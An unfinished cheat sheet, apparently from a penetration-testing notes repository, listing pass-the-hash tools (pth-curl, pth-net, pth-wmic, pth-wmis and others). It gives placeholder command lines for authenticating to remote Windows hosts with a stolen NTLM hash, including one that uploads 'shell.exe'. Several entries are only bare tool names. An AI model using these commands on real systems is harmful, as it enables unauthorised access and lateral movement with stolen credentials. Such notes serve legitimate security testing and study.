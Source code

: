 # Pass-The-Hash Toolkits

TODO: Fill the missing information

## 01 - cURL

`$ pth-curl -A <user_agent> -T shell.exe <URL>`

## 02 - Net

`$ pth-net -U <domain>/<username>%<ntlm_hash> //<IP>`

## 03 - Rpcclient

`$ pth-rpcclient`

## 04 - Smbclient

`$ pth-smbclient`

## 05 - Smbget

`$ pth-smbget`

## 06 - WMIC

`$ pth-wmic -U <domain>/<username>%<ntlm_hash> //<IP> "<WQL Queries>'`

## 07 - WMIS

`$ pth-wmis -U <domain>/<username>%<ntlm_hash> //<IP>`